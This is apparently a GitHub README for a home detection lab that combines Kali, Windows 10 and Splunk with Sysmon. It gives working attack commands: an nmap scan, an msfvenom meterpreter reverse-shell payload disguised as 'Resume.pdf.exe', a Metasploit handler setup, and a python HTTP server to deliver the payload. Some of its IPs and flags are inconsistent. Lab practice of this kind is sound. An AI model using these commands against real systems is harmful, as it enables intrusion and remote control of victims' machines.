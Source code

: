 # detection-lab

Objective

The detection-lab project aimed to establish a environment for simulating and detecting cyber attacks. The main focus was to ingest and analyze logs within a Splunk. This hands-on experience was designed to deepen understanding of network security, attack patterns, and defensive strategies.

Skills Learned

- Understanding of SIEM and practical application.
- Analyzing network logs.
- Ability to generate and recognize attack signatures.
- Knowledge of network protocols and security vulnerabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.

Tools Used

- Splunk for log ingestion and analysis.
- Splunk Universal Forwarder and Sysmon for log collecting/forwarding
- Kali Linux/Metasploit to create realistic network traffic and attack scenarios.

Network Diagram

![detection-lab](https://github.com/user-attachments/assets/df197dc4-81d7-48bd-8549-f5e0e13e41ce)

Steps

First, we need to understand the network connections in the virtual environment. The network we use when testing tools and using sandbox will be different.  

Network Options                Access to Internet          Use Case 
---------------                ------------------          --------
NAT                            Yes                         Test Tools
NAT Network                    Yes                         Test Tools
Bridged                        Yes                         Test Tools
Host-Only                      No                          Analyze Malware 
Internal Network/LAN Segment   No                          Analyze Malware 
Not Attached                   No                          Analyze MAlware 

In this lab, since we are going to create malware with Kali Linux and attack Windows Machine, the lab environment should not be connected to the internet. 

1-Installation and Setup of Virtual Machines 

-Kali Linux (attacker), Windows 10 (victim) and Ubuntu 22.04 (Splunk) were installed on VirtuelBox as virtual machines.
-Splunk Enterprise was installed on the Ubuntu machine to view logs.
-Universal Forwarder and Sysmon were installed on Windows 10 machine to send logs to Splunk.
-After selecting 'Internal Network' as network, fixed IP address was selected on each virtual machine. After all that, we saw that the virtual machines were reachable with the ‘ping’ command.

2. Attack Scenario 

-First I did a port scan with 'nmap' and saw that RDP port 3389 was open. nmap –A 
    192.168.10.100 -Pn 

-Secondly, I created malware with the 'msfvenom' payload. Here I chose the 'meterpreter/reverse_tcp' payload. 
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.250 lport=4444 -f ece -o Resume.pdf.exe 

-With this malware we will obtain a 'reverse shell' and create a connection to our own machine. After logging into the msfconsole where I will execute the attack, I entered the values for the payload we selected and started the attack.
    use exploit/multi/handler 
    options 		#to see what we can configure 
    set payload windows/x64/meterpreter/reverse_tcp 
    set lhost 192.168.2.250 
    set lport 4444 		#this is already given 
    exploit 

-After that, we wait for the victim machine to run the malware. For this we will create an HTTP Server on the Kali Linux machine so that the victim machine can download the malware from there. 
    python3 -m http.server 9999 		#make sure to run it in the directory where the malware is located 

3. Exploitation 
 
-First we need to deactivate Windows Security on the Windows (victim) machine. Then I connected to the 192.168.0.250:9999 server from the web browser and downloaded the malware file 'Resume.pdf.exe' and ran it. When I looked at the network connections from the cmd console, I saw that there was a TCP connection from 192.168.10.100 to 192.168.10.250. 
    netstat -anob 

-After that, we can now connect to the Windows machine with the 'shell' command on the Kali Linux machine and enter the commands we want. 

4. Monitoring with Splunk 

-Since I have installed sysmon on the Windows (victim) machine and configured it to send logs to Splunk, I can deep dive into logs. 

Note: Sysmon logs are not fully parsed by Splunk so don't forget to install Splunk Add-on for Sysmon. 
